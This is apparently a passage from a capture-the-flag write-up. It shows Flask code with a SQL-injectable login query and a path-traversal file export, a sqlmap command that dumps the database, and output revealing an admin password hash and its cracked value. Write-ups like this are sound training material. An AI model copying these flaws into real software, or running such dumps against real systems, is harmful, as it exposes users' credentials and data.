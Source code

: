 ```python
        for idx, value in enumerate(row)) for row in cursor.fetchall()]
    return (rv[0] if rv else None) if one else rv


def login(username, password):
    # I don't think it's not possible to bypass login because I'm verifying the password later.
    user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)

    if user:
        passwordCheck = passwordVerify(user['password'], password)

        if passwordCheck:
            token = createJWT(user['username'])
            return token
    else:
        return False

def getCommunication():
    return query('SELECT * from communication')   
```


Using SQLMap against login to dump database:
```sqlmap -r login_request.txt --dbms=mysql --dump```



output
```
Database: orbital                                                                                                                    
Table: users
[1 entry]
+----+-------------------------------------------------+----------+
| id | password                                        | username |
+----+-------------------------------------------------+----------+
| 1  | 1692b753c031f2905b89e7258dbc49bb (ichliebedich) | admin    |
+----+-------------------------------------------------+----------+
``` 
application/blueprint/routes.py
Path traversal in api/export
```python
@api.route('/export', methods=['POST'])
@isAuthenticated
def exportFile():
    if not request.is_json:
        return response('Invalid JSON!'), 400
    
    data = request.get_json()
    communicationName = data.get('name', '')

    try:
        # Everyone is saying I should escape specific characters in the filename. I don't know why.
        return send_file(f'/communications/{communicationName}', as_attachment=True)
    except:
        return response('Unable to retrieve the communication'), 400
```
